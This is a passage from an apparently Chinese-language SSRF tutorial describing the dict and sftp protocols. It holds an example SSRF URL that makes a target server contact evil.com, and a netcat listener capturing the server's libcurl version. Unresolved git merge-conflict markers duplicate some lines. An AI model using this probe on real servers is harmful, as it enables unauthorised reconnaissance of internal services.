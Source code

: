 <<<<<<< HEAD
[![](assets/1710898772-8e9b232d8ee5220c1826ca8c1170ea7d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312172022-c0954042-e051-1.png)  
[![](assets/1710898772-6be63753f16bb25893d304c50b72024c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312172035-c8727ed8-e051-1.png)
=======
[![](assets/1710299749-8e9b232d8ee5220c1826ca8c1170ea7d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312172022-c0954042-e051-1.png)  
[![](assets/1710299749-6be63753f16bb25893d304c50b72024c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312172035-c8727ed8-e051-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

**dict 协议**  
dict 协议是一个字典服务器协议，通常用于让客户端使用过程中能够访问更多的字典源，但是在 SSRF 中如果可以使用 dict 协议那么就可以轻易的获取目标服务器端口上运行的服务版本等信息

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
http://example.com/ssrf.php?dict://evil.com:1337/

evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 31126)
CLIENT libcurl 7.40.0
```

**sftp 协议**  
Sftp 代表 SSH 文件传输协议或安全文件传输协议，它是 SSH 的内含协议，在安全连接上与 SSH 类似

